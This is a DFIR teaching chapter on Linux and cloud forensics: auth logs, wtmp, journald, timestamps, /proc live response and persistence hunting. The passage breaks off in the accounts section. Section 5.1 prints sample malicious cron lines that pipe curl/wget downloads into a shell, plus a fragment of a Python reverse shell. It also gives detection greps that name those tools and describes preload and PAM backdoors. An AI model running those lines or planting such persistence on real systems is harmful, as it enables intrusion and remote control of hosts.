





This is Chapter 6 of the DFIR notebook. Chapter 5 mapped everything a Windows endpoint remembers about its own past. This chapter moves to the machines that carry production traffic — Linux servers, the containers running on them, and the cloud control planes that create and destroy those servers hundreds of times a day.

The shift is not just a change of file paths. On a Windows workstation the disk is the archive: the registry and the artifact caches are so chatty that an attacker has to work hard to erase themselves. Linux is the opposite — it records only what it was configured to record, most of it in flat text files that any root user can rewrite, and a default cloud instance may exist for eleven minutes and then vanish with its disk. What replaces the disk as the authoritative record is the **control plane**: an API log, outside the attacker's blast radius, that captured every call they made. Learning where that record lives and how to read it is now as fundamental as knowing what Prefetch proves.

Everything here is for lawful work: incident response on systems and accounts you are authorised to examine, forensic labs, and DFIR/CTF images. Snapshot before you touch, hash before and after, and never point collection tooling at infrastructure you don't own or have written authority over.

---

## Part 1: Why Linux and Cloud Forensics Are a Different Discipline

If you carry Windows habits straight over, you will reach wrong conclusions fast. Four structural differences drive everything else in this chapter.

**1. Logging is opt-in, not ambient.** Windows writes Prefetch, ShimCache, Amcache, SRUM, and Shellbags whether you asked for it or not; they are side effects of usability features. Linux has no equivalent execution cache. A default Ubuntu server does not record that `/tmp/x` ran. If `auditd` or an eBPF sensor was not installed *before* the incident, that execution is simply not recoverable from disk — you can only prove the file existed, when its inode was created, and what secondary traces it left. The forensic question changes from "which artifact proves execution?" to "what telemetry did this org actually deploy?"

**2. Root can rewrite the evidence.** `auth.log`, `wtmp`, `.bash_history` and even journald's binary journals are files on a filesystem that a root-level attacker owns. Log tampering on Linux is not exotic; it is the first thing a competent intruder does. Consequently the *only* logs you can meaningfully trust are the ones that left the box — syslog forwarded to a remote collector, journald with `ForwardToSyslog` into a SIEM, or the cloud provider's own logging. This is why remote logging is treated as a control-plane concern later in this chapter rather than a nice-to-have.

**3. The host may be cattle, not a pet.** An autoscaling group replaces instances constantly. A Kubernetes pod restarts and its writable layer is discarded. Serverless functions have no persistent filesystem at all. When the host is ephemeral, the durable evidence is the *orchestration* record: which image was pulled, which IAM role was assumed, what the API server was told to do.

**4. Identity is the new perimeter.** In the cloud, "compromise" usually means an attacker holds credentials, not a shell. The classic chain — SSRF against the instance metadata service, steal the instance role's temporary credentials, use them from an external IP — never involves malware on disk at all. Your entire investigation lives in CloudTrail. There is no memory image to carve, because nothing was ever executed on a machine you own.



**Practical consequence for scoping.** The first question in a cloud incident is never "can I get a disk image?" It is "what is the identity involved, and what did that identity do everywhere?" A stolen instance role can touch every S3 bucket in the account; imaging one EBS volume tells you nothing about that blast radius. Start at the control plane, then descend to the host only when you need to know *how* the credential was taken.

---

## Part 2: The Linux Evidence Map

Before any tooling, you need the map: what exists, on which distro, and what each thing actually proves. Memorise this section — it is the Linux equivalent of the Windows artifact map from Chapter 5.

### 2.1 Authentication and session artifacts

| Artifact | Path | Format | Proves |
|---|---|---|---|
| Auth log (Debian/Ubuntu) | `/var/log/auth.log` | text | sshd logins, `sudo` use, `su`, PAM events, user/group changes |
| Auth log (RHEL/CentOS/Fedora/SUSE) | `/var/log/secure` | text | same as above |
| `wtmp` | `/var/log/wtmp` | binary `utmp` records | historical logins/logouts, reboots, runlevel changes |
| `btmp` | `/var/log/btmp` | binary `utmp` records | **failed** login attempts (brute force) |
| `utmp` | `/var/run/utmp` or `/run/utmp` | binary, volatile | who is logged in **right now** |
| `lastlog` | `/var/log/lastlog` | binary, fixed-size per UID | last login time per account |
| journald | `/var/log/journal/<machine-id>/*.journal` | binary, indexed | everything systemd captured, incl. sshd if journald is primary |
| Sudo I/O logs | `/var/log/sudo-io/` | dirs of timing+ttyout | full keystroke replay, **only if `log_output` was enabled** |

Read the binary ones with the right tools, not `strings`:

```bash
last -f /var/log/wtmp -F                 # -F = full timestamps incl. year and seconds
last -f /var/log/wtmp -a -d              # -a: hostname last column, -d: resolve IP->DNS
lastb -f /var/log/btmp -F                # failed logins; same record format
lastlog                                  # per-account last login (reads /var/log/lastlog)
utmpdump /var/log/wtmp                   # raw record dump — the forensic view
```

`utmpdump` is the one that matters forensically because it shows each record verbatim, including the record type, PID, terminal, and the exact 32-byte host field:

```
[5] [03041] [ts/1] [root    ] [pts/1       ] [203.0.113.44        ] [203.0.113.44   ] [2027-02-11T09:14:02,331201+00:00]
[8] [03041] [    ] [        ] [pts/1       ] [                    ] [0.0.0.0        ] [2027-02-11T10:02:55,110043+00:00]
```

Field 1 is the record type: `7` = `USER_PROCESS` (login), `8` = `DEAD_PROCESS` (logout), `5` = `LOGIN_PROCESS`, `2` = `BOOT_TIME`, `1` = `RUN_LVL`. A login with **no matching type-8 record** is a session that never cleanly ended — a crash, a killed sshd, or a wiped record.

**Detecting wtmp tampering.** Attackers use utilities that zero out specific records rather than truncating the file (truncation is obvious). Because `wtmp` is a flat array of fixed-size structs written sequentially, deletion leaves two signatures:

```bash
# 1. File size must be an exact multiple of the record size (384 bytes on x86_64 glibc)
stat -c '%s' /var/log/wtmp | awk '{print $1, $1%384}'   # remainder must be 0

# 2. Timestamps must be monotonically increasing. Any backwards step = surgery.
utmpdump /var/log/wtmp 2>/dev/null | awk -F'[][]' '{print $16}' | sort -c && echo "monotonic OK"

# 3. All-zero (nulled) records
utmpdump /var/log/wtmp | grep -E '\[0\] \[00000\]'
```

**IR use case:** on a suspected-compromise triage, run all three checks in the first ten minutes. A non-multiple size or a backwards timestamp is a near-certain indicator of anti-forensics and immediately upgrades the severity of the case.

### 2.2 What `auth.log` actually looks like

You must be able to read these lines cold, because half of Linux IR is grepping this file:

```
Feb 11 09:13:58 web01 sshd[3041]: Accepted publickey for root from 203.0.113.44 port 51442 ssh2: RSA SHA256:1YyD...c8s
Feb 11 09:13:58 web01 sshd[3041]: pam_unix(sshd:session): session opened for user root by (uid=0)
Feb 11 09:14:31 web01 sudo:  deploy : TTY=pts/2 ; PWD=/home/deploy ; USER=root ; COMMAND=/bin/bash
Feb 11 09:15:02 web01 useradd[3120]: new user: name=svc-backup, UID=0, GID=0, home=/home/svc-backup, shell=/bin/bash
Feb 11 09:15:03 web01 passwd[3122]: password changed for svc-backup
```

Line by line, what a responder extracts:

- `Accepted publickey` — the auth **method**. `publickey` means a key was already installed; go straight to `authorized_keys` and check the fingerprint against the logged `SHA256:` value. `Accepted password` after a run of `Failed password` is a brute force that succeeded.
- The `SHA256:` fingerprint is the single most useful pivot in Linux IR. It uniquely identifies the key used and lets you find every other host that key touched. Match it with `ssh-keygen -lf ~/.ssh/authorized_keys`.
- `sudo: ... COMMAND=` — the exact command run as root. `COMMAND=/bin/bash` is a privilege escalation to an interactive shell and, notably, the *last* command sudo will log for that session: everything typed inside that shell is invisible to sudo.
- `useradd ... UID=0, GID=0` — a **second root account**. UID 0 on a non-`root` name is one of the highest-fidelity compromise indicators on Linux and should page someone.

Fast triage one-liners:

```bash
grep -E 'Accepted (password|publickey|keyboard-interactive)' /var/log/auth.log*
grep 'Failed password' /var/log/auth.log | awk '{print $(NF-3)}' | sort | uniq -c | sort -rn | head
grep -E 'useradd|usermod|groupadd|passwd\[' /var/log/auth.log*
grep -E 'sudo:.*COMMAND=' /var/log/auth.log* | grep -vE 'COMMAND=/usr/bin/(apt|systemctl status)'
zgrep 'Accepted' /var/log/auth.log.*.gz          # rotated logs — never forget these
```

**Pitfall:** the classic syslog timestamp (`Feb 11 09:13:58`) carries **no year and no time zone**. On a rotated log spanning a year boundary you will mis-date events unless you take the year from the file's own mtime or from journald. This is a real and common way to get a timeline wrong by twelve months.

### 2.3 journald — the binary log most people skip

On modern systemd distros, `auth.log` may not even exist; everything lands in journald's binary journals under `/var/log/journal/<machine-id>/` (persistent) or `/run/log/journal/` (volatile — lost on reboot, and volatile is the *default* if `/var/log/journal` doesn't exist).

Analysing journals from an image, offline:

```bash
journalctl --file /mnt/evidence/var/log/journal/9f2c.../system.journal -o short-iso-precise
journalctl -D /mnt/evidence/var/log/journal/ --since "2027-02-11 09:00" --until "2027-02-11 12:00" -o verbose
journalctl -D /mnt/evidence/var/log/journal/ _SYSTEMD_UNIT=sshd.service -o json | jq -r '._HOSTNAME, .MESSAGE'
journalctl -D /mnt/evidence/var/log/journal/ --verify        # cryptographic/structural integrity check
```

Flags that matter:

| Flag | Meaning |
|---|---|
| `--file <f>` | analyse one journal file |
| `-D <dir>` | analyse a whole journal directory (use for mounted evidence) |
| `-o verbose` | show **all** metadata fields, including `_PID`, `_UID`, `_COMM`, `_EXE`, `_CMDLINE`, `_BOOT_ID` |
| `-o json` / `json-pretty` | machine-parseable; pipe into `jq` or load into a timeline |
| `--since` / `--until` | absolute time window; accepts `"2027-02-11 09:00"` or `-1h` |
| `-b -1` | previous boot (use `--list-boots` to enumerate) |
| `--verify` | checks structural integrity; reports tampering if Forward Secure Sealing is enabled |

`-o verbose` is the reason journald is *better* evidence than text syslog when it is available: each entry carries the originating executable path, cmdline, PID, UID, cgroup, and boot ID as trusted fields the sender could not forge. `_CMDLINE` on a journald entry can give you the execution evidence that plain Linux otherwise lacks.

**Anti-forensics note:** attackers delete whole `*.journal` files or corrupt them, because unlike text logs they cannot be surgically edited by hand. Missing sequence in `--list-boots`, or a journal directory whose files don't cover a period the system was clearly up (cross-check with `wtmp` boot records), is the tell.

### 2.4 Shell history — useful, and a habitual liar

`~/.bash_history` is the artifact beginners over-trust. Understand its failure modes before you cite it:

- It is written **on shell exit**, not per command. A shell killed with `kill -9`, or a box you powered off, loses the entire session's history.
- `HISTSIZE=0`, `unset HISTFILE`, `export HISTFILE=/dev/null`, or `set +o history` disable it. Every attacker playbook starts with one of these.
- No timestamps by default. They appear **only** if `HISTTIMEFORMAT` was exported, in which case the file interleaves `#1770801238` epoch lines between commands.
- `HISTCONTROL=ignorespace` means any command typed with a leading space was never recorded — a favourite trick.
- Non-bash shells write elsewhere: `~/.zsh_history` (with `: <epoch>:<elapsed>;cmd` extended format), `~/.local/share/fish/fish_history`, `~/.psql_history`, `~/.mysql_history`, `~/.python_history`, `~/.sqlite_history`, `~/.rediscli_history`, `~/.viminfo` (which records opened file paths and search terms), and `~/.lesshst`.

```bash
for f in /home/*/.bash_history /root/.bash_history; do echo "== $f"; cat -n "$f"; done
ls -la /home/*/.bash_history /root/.bash_history      # size 0 or symlink -> /dev/null = deliberate
stat /root/.bash_history                              # mtime vs known session times
grep -rE 'HISTFILE|HISTSIZE|HIST[A-Z]*=' /home/*/.bashrc /root/.bashrc /etc/profile /etc/profile.d/
cat /root/.viminfo | head -50                         # opened files, search terms, register contents
```

**Blue team usage:** the durable fix is not to trust history at all. Ship shell activity off-box — `auditd` execve rules, an eBPF sensor, or bash's `PROMPT_COMMAND` piping to syslog. History is a bonus, never a control.

**CTF note:** in DFIR challenges on TryHackMe and CyberDefenders, `.bash_history` is frequently the *intended* path to the flag, and equally frequently a decoy that contradicts the `auditd` log — the graded answer is usually the one supported by two independent artifacts.

---

## Part 3: Timestamps — MACB on ext4 and XFS

Timestamp interpretation is where Linux forensics gets genuinely technical, and where most wrong conclusions are born.

Linux inodes carry four times, but only three are visible to ordinary tools:

| Symbol | Name | Updated when | Attacker-settable? |
|---|---|---|---|
| **M** | mtime | file **contents** modified | Yes — `touch -m`, `utimes()` |
| **A** | atime | file contents **read** | Yes — `touch -a`; often suppressed by mount options |
| **C** | ctime | **inode metadata** changed (perms, owner, link count, *and* any mtime/atime set) | **No** — kernel-controlled, no syscall to set it |
| **B** | crtime / btime | inode **created** | No standard API to set it |

The forensic gold here is **ctime**. There is no syscall to set ctime directly; it is stamped by the kernel whenever the inode changes. So when an attacker timestomps a file with `touch -t 202001010000 evil.so`, mtime and atime move backwards but **ctime updates to the moment of the stomp**. The signature is unmistakable:

```bash
stat /usr/lib/x86_64-linux-gnu/libsystemd.so.0.32.1
```

```
  File: /usr/lib/x86_64-linux-gnu/libsystemd.so.0.32.1
  Size: 918624      Blocks: 1800       IO Block: 4096   regular file
Device: 10301h/66305d	Inode: 787311      Links: 1
Access: (0644/-rw-r--r--)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2020-01-01 00:00:00.000000000 +0000
Modify: 2020-01-01 00:00:00.000000000 +0000
Change: 2027-02-11 09:16:44.882013118 +0000
 Birth: 2027-02-11 09:16:12.118002441 +0000
```

Modify says 2020. Change and Birth say the file appeared minutes into your incident window. **The file is stomped.** Note also that `ctime > mtime` by a large margin is normal for legitimate files too (a `chmod` does it), so the discriminator is `ctime` and `crtime` clustering inside the incident window while `mtime` sits implausibly far in the past.

### 3.1 Getting crtime when `stat` won't show it

`Birth:` requires a kernel and coreutils new enough to use `statx()`, and a filesystem that stores it. When it prints `-`, go to the filesystem directly.

**ext4 — via `debugfs`:**

```bash
ls -di /var/www/html/upload.php            # get the inode number, e.g. 655399
debugfs -R 'stat <655399>' /dev/sda1 2>/dev/null
```

```
Inode: 655399   Type: regular    Mode:  0644   Flags: 0x80000
Generation: 2938471120    Version: 0x00000000:00000001
User:    33   Group:    33   Project:     0   Size: 4127
 ctime: 0x65c7b41c:d2790f18 -- Wed Feb 11 09:16:44 2027
 atime: 0x5e0be100:00000000 -- Wed Jan  1 00:00:00 2020
 mtime: 0x5e0be100:00000000 -- Wed Jan  1 00:00:00 2020
crtime: 0x65c7b3fc:1c28a244 -- Wed Feb 11 09:16:12 2027
```

`debugfs` is a low-level ext2/3/4 debugger shipped in `e2fsprogs`. Two things to know: it reads the block device directly (mount the evidence read-only or work from an image file — `debugfs -R '...' disk.img` works on a raw image), and `<N>` in angle brackets means "inode number N" as opposed to a path.

Other `debugfs` commands worth knowing:

```bash
debugfs -R 'ls -l /tmp' disk.img                 # directory listing incl. deleted entries
debugfs -R 'stat <655399>' disk.img              # full inode dump
debugfs -R 'ncheck 655399' disk.img              # inode -> filename
debugfs -R 'icheck 8823456' disk.img             # block -> inode (which file owned this block?)
debugfs -R 'logdump -O -b 655399' disk.img       # journal entries touching that inode
```

`logdump` is underused and powerful: the ext4 journal (jbd2) contains recent metadata transactions, so it can show you an inode's **previous** state — including timestamps as they were *before* the stomp.

**XFS — via `xfs_db`:**

```bash
xfs_db -r -c 'inode 655399' -c 'print' /dev/sdb1
# v3 inodes carry a crtime field; -r = read-only, mandatory on evidence
```

**statx directly:**

```bash
stat --printf='%n\nbirth:%w\nmtime:%y\nctime:%z\n' /path/to/file
```

### 3.2 The atime trap

Do not build a "the attacker read this file" claim on atime without checking mount options first:

```bash
mount | grep -E 'relatime|noatime|strictatime'
cat /proc/mounts
grep -v '^#' /etc/fstab
```

`relatime` (the default on essentially all modern distros) only updates atime if the previous atime is older than mtime/ctime **or** older than 24 hours. `noatime` never updates it. So a missing atime update proves nothing, and a present one is coarse to the day. Conversely, on a `noatime` mount, an atime that *does* match your incident window is interesting — something set it explicitly.

### 3.3 Building a filesystem timeline

The classic Sleuth Kit route from Chapter 3 applies unchanged to Linux images:

```bash
fls -r -m / -o 2048 /evidence/web01.dd > bodyfile.txt
mactime -b bodyfile.txt -d -z UTC 2027-02-11 > timeline.csv
```

- `fls -r` recurses; `-m /` emits mactime "bodyfile" format with `/` as the mount prefix; `-o 2048` is the partition start offset in sectors (get it from `mmls /evidence/web01.dd`).
- `mactime -d` outputs comma-delimited; `-z UTC` pins the time zone (**always** work in UTC and convert once at report time); the trailing date limits output to that day forward.

For a live-ish or mounted filesystem, the quick equivalent that catches most droppers:

```bash
find / -xdev -newermt '2027-02-11 09:00' ! -newermt '2027-02-11 12:00' -type f \
     -printf '%TY-%Tm-%Td %TH:%TM:%TS  %p\n' 2>/dev/null | sort
find / -xdev -type f -mmin -120 2>/dev/null | grep -vE '^/(proc|sys|run)'
find /tmp /dev/shm /var/tmp -type f -printf '%TY-%Tm-%Td %TH:%TM  %s  %p\n' 2>/dev/null
```

`-xdev` keeps `find` on one filesystem (essential — otherwise you walk `/proc` and network mounts). `/dev/shm` deserves its own line: it is tmpfs, world-writable, RAM-backed, and a standard staging directory for Linux implants precisely because it leaves nothing on disk after reboot.

---

## Part 4: /proc — the Live Crime Scene

On a running Linux host, `/proc` is the richest evidence source in existence, and it evaporates the instant you power off. Treat a live `/proc` walk as volatile-evidence collection with the same rigour as a memory capture.

### 4.1 The core per-process pseudo-files

For any PID:

| Path | Contains | Forensic value |
|---|---|---|
| `/proc/<pid>/exe` | symlink to the running binary | **Resolves even if the file was deleted** — `-> /tmp/x (deleted)` |
| `/proc/<pid>/cwd` | symlink to working directory | where the process was launched/operating |
| `/proc/<pid>/cmdline` | NUL-separated argv | full command line incl. args, unlike `ps` truncation |
| `/proc/<pid>/environ` | NUL-separated env | `LD_PRELOAD`, injected creds, AWS keys, C2 config |
| `/proc/<pid>/maps` | memory mappings | injected/anonymous RWX regions, loaded .so files |
| `/proc/<pid>/fd/` | open file descriptors | open sockets, deleted files still held open, tty |
| `/proc/<pid>/status` | UID/GID, PPID, threads, capabilities | privilege state, `CapEff` for capability abuse |
| `/proc/<pid>/stat` | field 22 = starttime in clock ticks | precise process start relative to boot |

The single most valuable trick in Linux live response — **recovering a deleted running binary**:

```bash
ls -l /proc/3311/exe
# lrwxrwxrwx 1 root root 0 Feb 11 09:31 /proc/3311/exe -> /dev/shm/.kw (deleted)

cp /proc/3311/exe /evidence/recovered_3311.bin     # copies the still-open inode contents
sha256sum /evidence/recovered_3311.bin
```

Because the kernel keeps the inode alive while a process holds it open, `cp /proc/<pid>/exe` retrieves the full binary even though `ls /dev/shm` shows nothing. If you power the box off first, that malware is gone forever. This is the number-one reason to do live triage before shutdown on a suspected Linux compromise.

### 4.2 A live-response sweep

```bash
# Processes whose binary is deleted — very high signal
for p in /proc/[0-9]*; do
  t=$(readlink "$p/exe" 2>/dev/null)
  case "$t" in *"(deleted)"*) echo "$p -> $t";; esac
done

# Processes running from suspicious writable dirs
ls -l /proc/[0-9]*/exe 2>/dev/null | grep -E '/tmp/|/dev/shm/|/var/tmp/|/home/[^/]+/\.'

# Full cmdline for every process (ps truncates; this does not)
for p in /proc/[0-9]*; do printf '%s\t' "${p#/proc/}"; tr '\0' ' ' < "$p/cmdline"; echo; done

# LD_PRELOAD injected into any live process
grep -l 'LD_PRELOAD' /proc/[0-9]*/environ 2>/dev/null

# Anonymous executable memory (shellcode / injected code)
grep -E 'rwx|r-xp 00000000 00:00 0' /proc/[0-9]*/maps 2>/dev/null | grep -v '\.so'

# Network: PID <-> socket in one view
ss -tunapo    # -t tcp -u udp -n numeric -a all -p process -o timers
lsof -nPi     # -n no DNS, -P no port-name resolution, -i internet sockets
```

**Detecting hidden processes** (the classic LKM/`/proc`-hooking rootkit check): compare what the kernel's scheduler knows against what `/proc` enumerates.

```bash
# PIDs visible in /proc vs PIDs ps reports
ls /proc | grep -E '^[0-9]+$' | sort -n > /tmp/proc.txt
ps -eo pid --no-headers | tr -d ' ' | sort -n > /tmp/ps.txt
diff /tmp/proc.txt /tmp/ps.txt

# Brute-force: every PID the kernel will admit to via a syscall
for i in $(seq 1 32768); do kill -0 $i 2>/dev/null && [ ! -d /proc/$i ] && echo "HIDDEN: $i"; done
```

A PID that responds to `kill -0` (signal 0 = existence check only, sends nothing) but has no `/proc` entry is being hidden from userland — strong evidence of a rootkit.

### 4.3 Other volatile sources on a live host

```bash
cat /proc/modules                    # loaded kernel modules (compare against lsmod and known-good)
cat /proc/net/tcp /proc/net/tcp6     # raw socket table — bypasses hooked netstat
cat /proc/mounts                     # actual mounts, incl. attacker's bind mounts hiding dirs
cat /proc/1/environ                  # init's environment
ip -a addr; ip route; ip neigh       # incl. ARP cache -> lateral movement peers
arp -an
crontab -l -u root; systemctl list-timers --all
who -a; w; last -F | head -20
```

**Red team relevance (so you know what to hunt for):** offensive Linux tradecraft optimises against exactly this list — memory-only execution via `memfd_create()` so no path ever appears on disk, bind mounts to shadow directories, and `prctl(PR_SET_NAME)` to masquerade as `[kworker/0:2]`. The `memfd` case is detectable: `readlink /proc/<pid>/exe` returns `/memfd:<name> (deleted)`, which no legitimate service produces.

---

## Part 5: The Linux Persistence Surface

If you learn one operational list from this chapter, make it this one. These are the places Linux malware anchors itself, each with the command that checks it.



### 5.1 Scheduled tasks

```bash
for u in $(cut -d: -f1 /etc/passwd); do crontab -l -u "$u" 2>/dev/null | sed "s/^/[$u] /"; done
cat /etc/crontab
ls -la /etc/cron.d/ /etc/cron.hourly/ /etc/cron.daily/ /etc/cron.weekly/ /etc/cron.monthly/
ls -la /var/spool/cron/crontabs/ /var/spool/cron/          # Debian / RHEL paths respectively
ls -la /var/spool/at/ ; atq                                 # one-shot 'at' jobs
systemctl list-timers --all
grep -rl 'OnCalendar\|OnBootSec' /etc/systemd/system/ /usr/lib/systemd/system/ ~/.config/systemd/user/ 2>/dev/null
```

Cron entries are the single most common Linux persistence mechanism, and the ones worth flagging look like:

```
*/5 * * * * root curl -fsSL http://198.51.100.7/x.sh | bash
@reboot deploy /usr/bin/python3 -c "import socket,subprocess,os;..."
0 3 * * * root /usr/bin/wget -q -O- http://cdn.example.tld/u | sh >/dev/null 2>&1
```

**Note the corroborating artifact:** cron execution is logged. `/var/log/cron` (RHEL), `/var/log/syslog` (Debian, `CRON[pid]:` lines), or journald `_COMM=CRON` records the `(root) CMD (...)` line each time it fires — giving you first-execution time even when the crontab file's mtime was stomped.

### 5.2 systemd units — the modern favourite

```bash
systemctl list-unit-files --state=enabled
ls -lat /etc/systemd/system/ /etc/systemd/system/*.wants/ /usr/lib/systemd/system/ | head -40
ls -la /home/*/.config/systemd/user/ /root/.config/systemd/user/ 2>/dev/null
grep -rE 'ExecStart(Pre|Post)?=' /etc/systemd/system/ | grep -Ei 'curl|wget|bash -c|nc |python -c|/tmp/|/dev/shm'
systemd-analyze verify /etc/systemd/system/suspicious.service
```

A malicious unit typically looks entirely mundane:

```ini
[Unit]
Description=System Logging Helper
After=network.target

[Service]
Type=simple
ExecStart=/usr/local/bin/systemd-logind-helper
Restart=always
RestartSec=30

[Install]
WantedBy=multi-user.target
```

The tells: `Restart=always` on something that isn't a real daemon, a binary in `/usr/local/bin` that no package owns, and a name that is a near-miss for a real unit. Verify ownership immediately — see Part 6.

**User units are widely missed.** `~/.config/systemd/user/` units run as an unprivileged user, and with `loginctl enable-linger <user>` they start at boot with **no root involvement at all**. Many triage scripts only walk `/etc/systemd/system`, so this is a persistent blind spot. Check `/var/lib/systemd/linger/` for lingering-enabled accounts.

### 5.3 Preload, libraries, and PAM

```bash
cat /etc/ld.so.preload 2>/dev/null              # should not exist on most systems; any content = investigate
ls -la /etc/ld.so.conf.d/ ; cat /etc/ld.so.conf.d/*.conf
grep -rE 'LD_PRELOAD|LD_LIBRARY_PATH' /etc/environment /etc/profile /etc/profile.d/ /home/*/.bashrc /root/.bashrc
ldd /bin/ls                                     # unexpected .so in a core binary's deps
ls -la /lib/security/ /lib64/security/ /usr/lib/*/security/    # PAM modules
grep -rE '^auth|^account|^session' /etc/pam.d/sshd /etc/pam.d/common-auth
```

`/etc/ld.so.preload` is a userland-rootkit classic: any library listed there is loaded into **every** dynamically linked process, letting the attacker hook `readdir()` to hide files, `open()` to hide contents, and the libc socket calls to hide connections. If that file exists on a stock server, treat the host as fully compromised. Related: a PAM module dropped into `/lib/security` and referenced from `/etc/pam.d/sshd` gives a universal backdoor password while leaving `/etc/shadow` untouched.

### 5.4 Accounts, keys, and sudo

```bash
awk -F: '($3==0){print "UID0: "$1}' /etc/passwd            # every root-equivalent account
awk -F: '($2==""){print "EMPTY PASSWORD: "$1}' /etc/shadow
